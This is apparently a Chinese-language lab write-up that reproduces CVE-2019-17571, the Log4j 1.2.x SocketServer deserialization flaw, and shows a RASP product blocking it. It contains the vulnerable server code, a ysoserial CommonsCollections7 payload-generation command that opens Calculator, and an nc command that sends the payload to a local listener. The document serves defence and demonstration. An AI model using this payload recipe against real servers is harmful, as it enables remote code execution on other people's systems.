


# CVE-2019-17571

## 漏洞简介

Apache Log4j 是一个基于 Java 的日志记录工具，是 Apache 软件基金会的一个项目，是几种 Java 日志框架之一。
近日，Apache Log4j 官方披露在 1.2.x 版本中的SocketServer类存在反序列化漏洞（CVE-2019-17571），攻击者可利用漏洞可实现远程代码执行。
Log4j 1.2.x 版本中的 org.apache.log4j.net.SocketServer 类，存在反序列化漏洞。使用 Log4j SocketServer 类创建的 Socket 监听服务处理接受数据时，容易对不可信数据进行反序列化，结合反序列化小工具，攻击者可以实现远程代码执行。

##  影响版本


##  漏洞环境

+ idea新建一个项目，如下图所示：



+ log4j.java

```java
import org.apache.log4j.net.SimpleSocketServer;

public class log4j {
    public static void main(String[] args) {
        System.out.println("Listening on port 1234");
        String[] arguments = {"1234", (new log4j()).getClass().getClassLoader().getResource("log4j.properties").getPath()};
        SimpleSocketServer.main(arguments);
        System.out.println("Log4j output successfuly.");
    }
}
```

+ log4j.properties
```shell
log4j.rootCategory=DEBUG,stdout
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.threshold=DEBUG
log4j.appender.stdout.layout.ConversionPattern=[%d{yyy-MM-dd HH:mm:ss,SSS}]-[%p]-[MSG!:%m]-[%c\:%L]%n
```

+ pom.xml
```shell
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>CVE-2019-17571</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>log4j</groupId>
            <artifactId>log4j</artifactId>
            <version>1.2.17</version>
        </dependency>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

+ 使用ysoserial生产payload:

```shell
java -jar ysoserial-master-8eb5cbfbf6-1.jar  CommonsCollections7 "open /System/Applications/Calculator.app" > log4j.bin
```

+ 运行 log4j.Main


+ nc localhost 1234 < log4j.bin


+ 运行结果



##  RASP防御
启动RASP，再次发起攻击，计算机没有被打开

RASP拦截的日志
```shell
{
    "cmdArray":[
        "open",
        "/System/Applications/Calculator.app"
    ],
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)",
        "org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)",
        "org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)",
        "java.util.AbstractMap.equals(AbstractMap.java:495)",
        "org.apache.commons.collections.map.AbstractMapDecorator.equals(AbstractMapDecorator.java:129)",
        "java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)",
        "java.util.Hashtable.readObject(Hashtable.java:1215)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2256)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2147)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1646)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:482)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:440)",
        "org.apache.log4j.net.SocketNode.run(SocketNode.java:82)",
        "java.lang.Thread.run(Thread.java:748)"
    ]
}
```

请求耗时：

2021-09-16 09:40:51 INFO  method: ProcessImpl.start.before, 耗时: 0.483677 ms
